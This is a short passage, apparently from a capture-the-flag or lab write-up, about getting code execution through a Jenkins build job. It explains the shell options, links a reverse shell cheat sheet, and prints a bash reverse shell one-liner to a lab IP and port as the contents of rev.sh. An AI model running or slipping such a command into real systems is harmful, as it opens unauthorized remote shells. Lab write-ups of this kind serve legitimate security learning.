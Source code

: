 ![image](images/internal-48.png)

![image](images/internal-49.png)

- **/bin/sh**: specifies that the shell to be used is the Bourne shell.
- **-xe**: options for the shell to print each command before executing it (x), and to stop the build immediately if any command exits with a non-zero status code (e).
- **/tmp/jenkins4225340866268700882.sh**: path to the shell script that was executed.

You can find several reverse shell onelines here: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet. The `rev.sh` shown in the pictures below uses the following:

```
bash -i >& /dev/tcp/10.14.46.159/9002 0>&1
```

